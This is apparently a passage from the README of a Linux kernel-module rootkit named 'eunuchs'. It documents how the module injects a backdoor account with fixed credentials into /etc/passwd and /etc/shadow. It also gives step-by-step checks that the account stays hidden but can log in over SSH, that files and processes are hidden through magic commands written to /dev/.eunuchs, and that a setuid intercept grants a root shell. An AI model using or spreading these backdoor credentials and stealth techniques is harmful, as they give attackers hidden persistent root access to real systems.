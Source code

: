 ```
* `EUNUCHS_PASSWD_MOD` - The line which should be injected into `/etc/passwd`. By default, this injects an account with the credentials of username `me0wza`, password `w0wza`, and UID `31337`.
* `EUNUCHS_SHADOW_MOD` - The line which should be injected into `/etc/shadow`.

<a name="poc"></a>
### POCs
<a name="accountinjection"></a>
###### Account Injection
To verify account injection, perform the following steps:
1. Insert the module.
2. Remove the module.
3. `sudo cat /etc/passwd` and `sudo cat /etc/shadow`. Verify that an account with the name `me0wza` has been added to these files.
4. Insert the module again.
5. `sudo cat /etc/passwd` and `sudo cat /etc/shadow`. Verify that the `me0wza` account is no longer visible.

At this point, we have verified that the account is injected into these files and is not visible to the user. In order to verify that login daemons can still see the account, perform the following steps:
1. Ensure that an ssh client and server are installed.`sudo apt-get install openssh-server openssh-client`
2. Change the target runlevel to be multi-user (boot to console, instead of graphical user interface). `sudo systemctl set-default multi-user.target` (to later rever this change, set the target runlevel back to `graphical.target`)
3. Reboot to get non-graphical login program
4. Log in and load the module.
5. `ssh -l me0wza localhost`, then enter `w0wza` when prompted for the password.
6. Log out of ssh session.
7. Log out.
8. Log in with the backdoor account.

<a name="files"></a>
###### Hiding / Showing Files
To verify that the module hides files, perform the following steps:
1. `ls -l tools/` and verify that there is a file named `meow.eunuchs` listed.
2. `stat tools/meow.eunuchs` and verify that the stat command successfully returns the information associated with this file.
2. Insert the module.
3. `ls -l tools/` again, and verify that there is no longer a file named `meow.eunuchs` listed.
4. `stat tools/meow.eunuchs` and verify that there is an error message stating that no such file or directory exists.

In order to further test this functionality, one repeat the above process (with the proper substitutions for the filename) after altering the lists of file suffixes which should be hidden by the module.
1. `echo ohaiplzhidefile .c > /dev/.eunuchs` to hide files ending in `.c`
2. Perform the steps above to verify that `.c` files are hidden.
3. `echo ohaiplzshowfile .c > /dev/.eunuchs` to show files ending in `.c` again.

<a name="procs"></a>
###### Hiding / Showing Processes
To verify that the module hides processes, perform the following steps while the module is loaded:
1. Execute `ps aux` and pick a random process with a long running time (`init` is good, since it will always be running, and has a constant PID of `1`).
2. `echo ohaiplzhideproc 1 > /dev/.eunuchs`
3. Execute `ps aux` again and verify that the entry for the selected process is no longer listed.

<a name="creds"></a>
###### Credential Elevation
To verify that the `setuid` intercept works, perform the following while the module is loaded:
1. `gcc -o icanhazshell tools/icanhazshell.c`
2. `./icanhazshell`
```